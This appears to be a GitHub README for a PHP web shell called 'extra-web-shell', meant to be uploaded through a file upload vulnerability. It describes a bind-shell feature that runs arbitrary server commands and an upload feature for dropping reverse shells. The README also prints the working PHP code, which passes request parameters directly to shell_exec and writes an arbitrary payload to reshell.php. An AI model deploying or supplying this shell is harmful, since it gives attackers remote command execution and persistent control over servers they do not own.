 # extra-web-shell

## what is this?
#### this is a simple web shell, contains both, bind and option of upload a reverse shell

## how can this help me?
#### well, sometimes when you find a file upload vulnerability, you will find that you can't bypass the extension eaisy, for example you have to try many extesions methods such as, php, php5, jpg.php ... this extra web shell, will help you to upload any kind of files start from php, txt ...etc

## bind shell section
#### this part of the tool, you can execute any command on the server without any problem, and the output will be visible in the output border

## creat file or reverse shell section
#### here you can upload any file just copy the content of this file and the output will gives you the link of it to acssess
#### you can edit the name and the extension in the source code from "reshell.php" to what you like
```
<?php
	if(isset($_GET['cmd']))
	{
	    $output = shell_exec($_GET['cmd']);
	}
	elseif (isset($_GET['payload'])) {
		file_put_contents("reshell.php", $_GET['payload']);
		$path = "reshell.php";
	}	
?>

```

## LICENCE
[MIT](https://github.com/hamza07-w/extra-web-shell/blob/main/LICENSE)
